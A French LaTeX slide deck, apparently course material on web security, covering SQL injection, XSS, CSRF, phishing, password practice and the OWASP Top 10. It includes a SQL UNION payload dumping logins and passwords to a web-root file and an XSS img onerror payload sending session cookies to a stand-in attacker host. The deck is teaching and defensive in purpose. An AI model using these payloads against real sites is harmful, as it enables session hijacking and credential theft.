\hypertarget{risque}{%
\section{Risque}\label{risque}}

\begin{itemize}
\tightlist
\item
  Faille ou bug permettant d'altérer le fonctionnement
\item
  Un attaquant pourra :

  \begin{itemize}
  \tightlist
  \item
    Modifier le fonctionnement
  \item
    Accéder ou modifier les données
  \end{itemize}
\item
  Présence possible à tous les niveaux d'un système

  \begin{itemize}
  \tightlist
  \item
    Application
  \item
    Serveur et Client
  \item
    OS
  \item
    SGBD, \ldots{}
  \end{itemize}
\item
  Responsabilité des développeurs :

  \begin{itemize}
  \tightlist
  \item
    OS, serveurs, langages : patches rapidement disponibles
  \item
    nos applications : \textbf{c'est nous qui en sommes responsables}
  \end{itemize}
\end{itemize}

\hypertarget{injection-de-code}{%
\section{Injection de code}\label{injection-de-code}}

\begin{itemize}
\tightlist
\item
  Données mal validées : possibilité d'exécuter du code
\item
  Passées par requêtes :

  \begin{itemize}
  \tightlist
  \item
    formulaires
  \item
    URL
  \item
    \ldots{}
  \end{itemize}
\item
  Type de code injectable : TOUS !

  \begin{itemize}
  \tightlist
  \item
    HTML
  \item
    SQL
  \item
    Javascript
  \item
    \ldots{}
  \end{itemize}
\end{itemize}

\hypertarget{injections-sql}{%
\section{Injections SQL}\label{injections-sql}}

\begin{itemize}
\tightlist
\item
  Modifier les requêtes envoyées au SGBD
\item
  Obtention d'un résultat non prévu par le développeur
\item
  Deviner la structure du code pour l'exploiter
\item
  SQL est puissant : UNION, INTO DUMPFILE, \ldots{}
\end{itemize}

\href{https://fr.wikipedia.org/wiki/Injection_SQL}{Exemples}

\begin{otherlanguage}{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{SELECT}\NormalTok{ titre, num }\KeywordTok{FROM}\NormalTok{ livres }\KeywordTok{WHERE}\NormalTok{ num=}\DecValTok{2} \KeywordTok{UNION}
\KeywordTok{SELECT}\NormalTok{ login, }\KeywordTok{password} \KeywordTok{FROM} \FunctionTok{user} \KeywordTok{INTO}\NormalTok{ DUMPFILE }\StringTok{'www/exploit.txt'}
\end{Highlighting}
\end{Shaded}

\end{otherlanguage}

\hypertarget{eviter-les-injections-sql}{%
\section{Eviter les injections SQL}\label{eviter-les-injections-sql}}

\begin{itemize}
\tightlist
\item
  N'accepter que des caractères valides
\item
  A défaut, neutraliser les caractères dangereux
\item
  Utiliser les entités HTML
\item
  Vérifications strictes dans le code
\item
  Eviter les noms prévisibles pour une appli critique
\end{itemize}

\hypertarget{cross-site-scripting-xss}{%
\section{Cross Site Scripting (XSS)}\label{cross-site-scripting-xss}}

\begin{itemize}
\tightlist
\item
  Injection de code (html et script)
\item
  Exécution par le navigateur du client
  
\includegraphics{src/img/xss.png}
\end{itemize}

\hypertarget{cross-site-scripting-xss-1}{%
\section{Cross Site Scripting (XSS)}\label{cross-site-scripting-xss-1}}

\begin{itemize}
\tightlist
\item
  Enjeux : tout ce qui est possible en JS

  \begin{itemize}
  \tightlist
  \item
    Redirection
  \item
    Lecture de cookies (session, \ldots{})
  \item
    Envoi d'info à un autre serveur
  \item
    Modification du contenu de la page
  \item
    \ldots{}
  \end{itemize}
\item
  Souvent utilisé pour transmettre le cookie de session
\end{itemize}

\begin{otherlanguage}{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<img}\OtherTok{ src=}\StringTok{"http://www.urlinexistante.com/im.jpg"}
\OtherTok{     onerror=}\StringTok{"window.location='http://www.pirate.com/recupcookie.jsp?}
\StringTok{     cookie='+document.cookie';"}\KeywordTok{>}
\end{Highlighting}
\end{Shaded}

\end{otherlanguage}

\hypertarget{types-de-xss}{%
\section{3 types de XSS}\label{types-de-xss}}

\begin{itemize}
\tightlist
\item
  Reflected XSS

  \begin{itemize}
  \tightlist
  \item
    Affichage d'une partie de la requête (recherche, erreur, \ldots{})
  \end{itemize}
\item
  Stored XSS

  \begin{itemize}
  \tightlist
  \item
    Stockage dans la BDD et affichage (= exécution) par plusieurs
    clients
  \end{itemize}
\item
  DOM based XSS

  \begin{itemize}
  \tightlist
  \item
    Exécutée lors de la modification du DOM
    (\href{https://www.owasp.org/index.php/DOM_Based_XSS}{Exemple})
  \end{itemize}
\end{itemize}

\hypertarget{cross-site-request-forgery-csrf---sea-surf}{%
\section{Cross Site Request Forgery (CSRF - Sea
Surf)}\label{cross-site-request-forgery-csrf---sea-surf}}

\begin{itemize}
\tightlist
\item
  \textbf{Principe} :

  \begin{itemize}
  \tightlist
  \item
    Faire réaliser à quelqu'un une action à son insu, avec ses propres
    infos d'authentification (credentials)
  \end{itemize}
\item
  Envoi par mail ou post forum de liens ou images
\item
  Les URL correspondent à actions (vote, suppression, \ldots{})
\end{itemize}

\href{https://www.owasp.org/index.php/CSRF}{Exemple} (SOP, CORS)

\hypertarget{phishing}{%
\section{Phishing}\label{phishing}}

\begin{itemize}
\tightlist
\item
  Site sosie d'un site officiel :

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \tightlist
  \item
    L'utilisateur saisit ses données\ldots{}
  \item
    \ldots{} l'attaquant les récupère\ldots{}
  \item
    \ldots{} et les utilise sur le site officiel
  \end{enumerate}
\item
  Difficile à contrer pour le développeur
\item
  L'utilisateur doit être prudent
\item
  Bien lire les URLS et le GUI du navigateur
  (\href{http://kb.cadzow.com.au:15384/cadzow/details.aspx?ID=1422}{Exemples})
\end{itemize}

\hypertarget{risques-non-liuxe9s-uxe0-lapplication}{%
\section{Risques non liés à
l'application}\label{risques-non-liuxe9s-uxe0-lapplication}}

\begin{itemize}
\tightlist
\item
  IoT : souvent mal sécurisé (\href{https://www.shodan.io/}{shodan.io})
\item
  DoS
\item
  Spoofing (IP, DNS, ARP)
\item
  Buffer Overflows (surtout en C)
\item
  Trojans, backdoors
\item
  Usurpation de mots de passe : dictionnaire, force brute
\item
  \textbf{SOCIAL ENGINEERING !!!}
\end{itemize}

\hypertarget{top-500-passwords-cloud}{%
\section{Top 500 passwords cloud}\label{top-500-passwords-cloud}}

\begin{figure}
\centering

\includegraphics{src/img/passwordscloud.png}
\caption{top 500 passwords cloud}
\end{figure}

\hypertarget{mots-de-passe}{%
\section{Mots de passe}\label{mots-de-passe}}

\begin{itemize}
\tightlist
\item
  91\% of users have a password from the top 1000
  (\href{https://xato.net/10-000-top-passwords-6d6380716fe0\#.q5gcg2vme}{source})
\item
  Our passwords habits
  \href{http://visual.ly/our-password-habits-revealed}{revealed}
\item
  xkcd's \href{http://xkcd.com/936/}{password strength}
\item
  \href{https://hacks.mozilla.org/2014/10/passwordless-authentication-secure-simple-and-fast-to-deploy/}{passwordless}
  authentication
\item
  2017 :
  \href{https://nakedsecurity.sophos.com/2016/08/18/nists-new-password-rules-what-you-need-to-know/}{NIST
  800-63-3} suivi par la
  \href{https://www.ncsc.gov.uk/guidance/password-guidance-simplifying-your-approach}{NCSC}

  \begin{itemize}
  \tightlist
  \item
    Mots de passe longs plutôt qu'avec des caractères spéciaux
  \item
    Ne forcer le changement qu'en cas de nécessité
  \item
    Autoriser et accompagner l'utilisation de password managers
  \item
    Utiliser la 2FA
  \end{itemize}
\end{itemize}

\hypertarget{collecte-dinformation}{%
\section{Collecte d'information}\label{collecte-dinformation}}

\begin{itemize}
\tightlist
\item
  Toute information est bonne pour l'attaquant

  \begin{itemize}
  \tightlist
  \item
    Messages d'erreur
  \item
    Configuration OS serveur
  \item
    Configuration serveurs (http, sql, php, \ldots{})
  \item
    Identifiants et commentaires dans sources -au cas où-
  \item
    SOCIAL ENGINEERING !
  \end{itemize}
\item
  Le développeur doit laisser filter un minimum d'info !
\item
  Utilisée aussi par les ``white hats'' (etical hackers) :
  \href{https://www.honeynet.org/node/960}{Honeynet Project}
\end{itemize}

\hypertarget{bonnes-pratiques}{%
\section{Bonnes pratiques}\label{bonnes-pratiques}}

\begin{itemize}
\tightlist
\item
  Configuration stricte du serveur
\item
  Valider toutes les entrées (formulaires, requêtes HTTP)
\item
  Filtrage/encodage de toutes les entrées en entités HTML
\item
  Ne jamais afficher directement une saisie de formulaire

  \begin{itemize}
  \tightlist
  \item
    Ni aucune donnée transmise par HTTP avant de l'avoir filtrée !
  \end{itemize}
\item
  Tester ses formulaires avec des expressions à risques
\item
  Contrôler le maximum de paramètres (même si redondant) :

  \begin{itemize}
  \tightlist
  \item
    Session, IP, user agent, proxy, \ldots{}
  \end{itemize}
\item
  Utiliser un framework

  \begin{itemize}
  \tightlist
  \item
    ces bonnes pratiques sont déjà implémentées
  \end{itemize}
\item
  Suites et logiciels de test
\end{itemize}

\hypertarget{top-109-owasp-2017}{%
\section{\texorpdfstring{\href{https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project}{Top
10} OWASP 2017}{Top 10 OWASP 2017}}\label{top-109-owasp-2017}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Injection
\item
  Broken Authentication
\item
  Sensitive Data Exposure
\item
  XML External Entities
  (\href{https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/}{XXE})
\item
  Broken Access Control
\item
  Security Misconfiguration
\item
  Cross Site Scripting (XSS)
\item
  Insecure Deserialization
\item
  Using Components with Known Vulnerabilities
\item
  Insufficient Logging \& Monitoring
\end{enumerate}

\begin{itemize}
\tightlist
\item
  Top 10
  \href{https://www.owasp.org/index.php/Mobile_Top_10_2016-Top_10}{mobile}
\end{itemize}

\hypertarget{ruxe9fuxe9rences}{%
\section{Références}\label{ruxe9fuxe9rences}}

\begin{itemize}
\tightlist
\item
  Référence

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.owasp.org/index.php/Main_Page}{OWASP}
  \end{itemize}
\item
  Exemples, explications

  \begin{itemize}
  \tightlist
  \item
    \href{http://www.journaldunet.com/developpeur/tutoriel/php/031030php_nexen-xss1.shtml}{Présentation
    XSS et CSRF} en français
  \item
    \href{http://www.apprendre-php.com/tutoriels/tutoriel-39-introduction-aux-cross-site-request-forgeries-ou-sea-surf.html}{Protection
    CSRF} en français
  \end{itemize}
\item
  Utilitaires, tutos, exercices

  \begin{itemize}
  \tightlist
  \item
    \href{https://www.owasp.org/index.php/Webgoat}{Web Goat}
  \item
    \href{http://www.insecurelabs.org/task}{Insecure Labs}
  \item
    \href{http://google-gruyere.appspot.com/}{Google-Gruyere}
  \item
    \href{https://www.securite-info.org/}{Tutoriaux et challenges} en
    français
  \end{itemize}
\end{itemize}

\begin{otherlanguage}{english}

\end{otherlanguage}

\begin{otherlanguage}{english}

\end{otherlanguage}

\begin{otherlanguage}{english}

\end{otherlanguage}

\hypertarget{sources}{%
\section{Sources}\label{sources}}
